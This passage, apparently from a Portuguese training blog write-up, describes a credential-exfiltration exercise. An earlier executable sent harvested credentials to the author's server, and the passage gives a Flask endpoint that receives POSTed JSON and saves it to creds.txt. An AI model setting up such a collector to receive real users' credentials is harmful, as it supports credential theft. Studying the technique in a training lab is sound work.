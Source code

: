 Conforme esperado, o executável se conectou com nosso server, e enviou as credenciais tratadas, da mesma forma que o próprio script faz.

Isso finaliza as duas primeiras tasks da semana 02.

## Tasks \x0b e \x0c

<center><img src="/img/std/dojo/dojo-22.png"></center>

Nestas tasks, vamos explorar outro universo dentro do Python, pois precisamos criar uma `API`que receberá uma requisição `POST`. Como framework para este script, escolhi o `Flask`, por já ter certo grau de conhecimento com a biblioteca.

O Flask nos permite criar uma API de forma muito simpes e fácil, o script ficou desta forma:

```python
#!/usr/bin/python3

# importando as bibliotecas
from flask import Flask, jsonify, request, render_template
import json

app = Flask(__name__)

# funcao que gravará o arquivo de log
def log(buffer):
    with open("creds.txt", "w") as log:
        for i in buffer:
            log.write(i)

# define a rota para receber a requisicao
@app.route('/', methods=['POST'])
def add_dados():
    recv = request.get_json()
    if "Dojo" in recv:
        log(json.dumps(recv, sort_keys=True, indent=4))
    return '', 202

if __name__ == "__main__":
    app.run(host="0.0.0.0")

```
Como não informei uma porta para o servidor da API funcionar, ela utilizará a padrão `5000`. Ao executar o script, o servidor da API ficará ativo.
